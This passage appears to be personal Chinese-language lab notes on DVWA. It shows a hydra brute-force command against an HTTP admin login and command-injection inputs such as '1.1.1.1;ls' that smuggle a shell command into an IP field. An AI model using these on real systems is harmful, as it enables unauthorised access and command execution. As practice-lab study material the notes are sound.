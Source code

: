 ```bash
hydra -l admin -P password.lst -s 80 192.168.1.1 http-get /
```

hydra 的 options 似乎有改變，要留意版本和文件

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%205.png)

使用 http-form-get module 的話，要用 -s 指定 port, -f 指定 host

```bash
:H=Cookie: PHPSESSID=rjevaetqb3dqbj1ph3nmjchel2; security=low
```

---

# 2. Command Injection

### Objective: Remotely, find out the user of the web service on the OS, as well as the machine's hostname via RCE.

security:low 的等級靠運氣猜猜可以中

### 失敗範例

```c
1.1.1.1 && ls
```

```c
1.1.1.1&&ls
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%206.png)

### 成功範例

```c
1.1.1.1;ls
```
